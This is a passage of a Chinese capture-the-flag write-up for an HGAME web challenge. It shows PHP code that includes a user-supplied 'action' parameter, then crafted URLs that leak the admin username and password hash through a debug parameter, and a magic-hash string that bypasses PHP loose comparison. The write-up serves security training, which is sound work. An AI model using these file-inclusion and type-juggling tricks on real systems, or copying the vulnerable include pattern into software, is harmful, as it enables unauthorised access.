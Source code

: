 ```
<?php
error_reporting(0);
session_start();

if(isset($_SESSION['username'])) {
    header("Location: admin.php");
    exit();
}

$action = @$_GET['action'];
$filter = "/config|etc|flag/i";

if (isset($_GET['action']) && !empty($_GET['action'])) {
    if(preg_match($filter, $_GET['action'])) {
        echo "Hacker get out!";
        exit();
    }
    include $action;
}
elseif(!isset($_GET['action']) || empty($_GET['action'])) {
    header("Location: ?action=login.php");
    exit();
}
```

过滤了flag关键字，看来不能直接文件包含读flag

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165457.png)

继续看，login.php里面的debug：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165502.png)

（PHP中的魔术变量）意思是GET过去的debug等于什么名字就输出什么名字的变量

就很nice：

```
http://cosmos-admin.hgame.day-day.work/login.php?action=login.php&debug=admin_username
http://cosmos-admin.hgame.day-day.work/login.php?action=login.php&debug=admin_password
```

可以分别得到：

用户名：Cosmos!

密码：（md5加密后）0e114902927253523756713132279690

然后密码又是弱类型判断（[常见MD5碰撞的playload](https://www.cnblogs.com/Jie-Fei/p/9886598.html)）；

于是输入密码 ：

```
QNKCDZO
```
